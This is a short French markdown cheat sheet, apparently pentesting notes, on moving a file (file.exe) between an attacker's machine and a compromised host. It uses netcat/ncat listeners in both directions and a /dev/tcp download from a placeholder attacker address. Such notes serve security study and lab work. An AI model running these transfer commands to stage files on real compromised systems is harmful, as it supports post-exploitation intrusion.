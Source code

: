 ```yaml
---
public: true # set to true to make the article publishable
---
```


| Attackbox   ENVOIE file.exe vers | Compromised host |
| --- |  --- | 
| ETABLIT LA CONNEXION |  | 
| `nc -q 0 $TARGET_IP 443 < file.exe` | `nc -l -p 443 > file.exe`| 
| `ncat --send-only $TARGET_IP 443 < file.exe` | `ncat -l -p 443 --recv-only > file.exe`| 

| Attackbox   ENVOIE file.exe vers | Compromised host |
| --- |  --- | 
|  | ETABLIT LA CONNEXION | 
| `nc -l -p 443 < file.exe` | `nc -q 0 $TARGET_IP 443`| 
| `ncat -l -p 443 --send-only < file.exe` | `ncat --recv-only $TARGET_IP 443 > file.exe`| 


```
# se connecte à $ATTACK_IP et download file.exe
cat < /dev/tcp/$ATTACK_IP/443 > file.exe
```
